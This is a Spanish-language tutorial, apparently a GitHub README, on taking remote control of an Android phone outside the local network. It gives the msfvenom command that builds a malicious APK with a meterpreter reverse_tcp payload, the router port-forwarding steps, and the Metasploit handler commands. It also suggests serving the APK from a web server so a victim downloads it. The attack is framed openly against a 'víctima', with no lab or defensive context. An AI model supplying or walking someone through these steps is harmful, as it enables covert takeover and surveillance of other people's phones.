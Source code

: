 # Msfvenom fuera de Red

<br>

![Informatica](Img/logo.jpg)

<br>

Muchos deebn saber como controlar un dispositivo con Msfvenom dentro de red pero algunos no saben
como controlar un dispositivo fuera de nuestra red local. Aqui te enseñaremos como controlar un dispositivo
con Msfvenom fuera de nuestra red local.

Primero iremos a nuestro kali linux y crearemos una aplicacion maliciosa con msfvenom y pondremos
nuestra IP publica:

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=< TU IP PUBLICA > LPORT=4444 -o
android.apk
```

Luego iremos a nuestro navegador y escribiremos la direccion de nuestro router, en la mayoria es
192.168.1.1 y para iniciar secion por defecto admin.

Luego buscaremos donde diga reenvio de puetos:

<br>

![Informatica](Img/puertos.jpg)

<br>

abriremos el puerto 4444 y pondremos la IP de nuestro Kali Linux.

Ahora abriremos una nueva terminal en Kali Linux y escribiremos msfconsole luego ingresaremos los
siguientes comandos:

```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST IP kali linux
set LPORT 4444
exploit
```

<br>

![Informatica](Img/exploit.jpg)

<br>

Luego instalaremos la aplicacion maliciosa que creamos en nuestro celular víctima y la abriremos. Ahora
iremos a nuestro Kali Linux y veremos que tenermos una seción de meterpreter, ya estamos dentro de
nuestro celular víctima. Para ayudarnos ingresaremos help y podemos ver una serie de informacion de lo que
podemos hacer dentro de nuestro celular víctima.

<br>

![Informatica](Img/help.jpg)

<br>

**NOTA:** Pueden subir la aplicacion maliciosa a un servidor web como apache2, y hacer que la victima
descargue la aplicacion desde el servidor web.